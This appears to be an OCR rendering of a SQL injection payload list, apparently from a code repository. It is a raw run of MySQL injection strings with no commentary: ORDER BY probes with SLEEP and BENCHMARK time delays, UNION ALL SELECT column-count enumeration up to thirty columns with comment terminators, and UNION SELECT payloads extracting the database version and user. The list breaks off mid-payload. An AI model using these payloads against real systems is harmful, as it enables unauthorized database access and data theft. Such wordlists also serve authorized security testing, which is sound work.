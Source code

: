 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30--   UNION ALL SELECT 1  UNION ALL SELECT 1,2  UNION ALL SELECT 1,2,3  UNION ALL SELECT 1,2,3,4  UNION ALL SELECT 1,2,3,4,5  UNION ALL SELECT 1,2,3,4,5,6  UNION ALL SELECT 1,2,3,4,5,6,7  UNION ALL SELECT 1,2,3,4,5,6,7,8  UNION ALL SELECT 1,2,3,4,5,6,7,8,9  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30  UNION ALL SELECT 1#  UNION ALL SELECT 1,2#  UNION ALL SELECT 1,2,3#  UNION ALL SELECT 1,2,3,4#  UNION ALL SELECT 1,2,3,4,5#  UNION ALL SELECT 1,2,3,4,5,6#  UNION ALL SELECT 1,2,3,4,5,6,7#  UNION ALL SELECT 1,2,3,4,5,6,7,8#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#  UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#  UNION ALL SELECT 1--   UNION ALL SELECT 1,2--   UNION ALL SELECT 1,2,3--   UNION ALL SELECT 1,2,3,4--   UNION ALL SELECT 1,2,3,4,5--   UNION ALL SELECT 1,2,3,4,5,6--   UNION ALL SELECT 1,2,3,4,5,6,7--   UNION ALL SELECT 1,2,3,4,5,6,7,8--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29--   UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30--   UNION SELECT @@VERSION,SLEEP(5),3  UNION SELECT @@VERSION,SLEEP(5),USER(),4  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9  UNION SELECT
